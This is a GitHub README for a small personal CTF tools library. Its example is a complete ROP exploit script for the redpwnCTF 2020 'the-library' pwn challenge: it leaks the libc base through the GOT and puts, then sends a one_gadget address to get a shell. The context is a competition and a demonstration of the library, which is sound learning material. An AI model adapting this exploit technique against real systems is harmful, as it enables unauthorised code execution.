 # CTF tools for me
[![CI](https://github.com/d2verb/ctftools/workflows/CI/badge.svg)](https://github.com/d2verb/ctftools/actions)
[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/d2verb/ctftools/blob/master/LICENSE)

## How to install
TODO

## Example
This is an example to solve the pwn challenge (the-library) in redpwnCTF 2020.

```python
from ctftools.pwn import elf, remote
from ctftools.util import p64, u64

e = elf("./tmp/the-library")
l = elf("./tmp/libc.so.6")
p = remote("2020.redpwnc.tf", 31350)

pop_rdi = 0x00400733
one_gadget_offset = 0x10A38C

pld = b"A" * 0x18
pld += p64(pop_rdi)
pld += p64(e.got["read"])
pld += p64(e.plt["puts"])
pld += p64(e.symbols["main"])

# libc base leak
p.sendafter(b"name?\n", pld)
p.recvuntil(b"Hello there: ")
libc_base = u64(p.recv()[29 : 29 + 6] + b"\x00\x00") - l.symbols["read"]
print(f"[*] libc base: 0x{libc_base:x}")

# execute main again & send one_gadget RCE address
one_gadget = one_gadget_offset + libc_base
pld = b"A" * 0x18
pld += p64(one_gadget)

p.sendline(pld)
p.interact()
```

## License
MIT License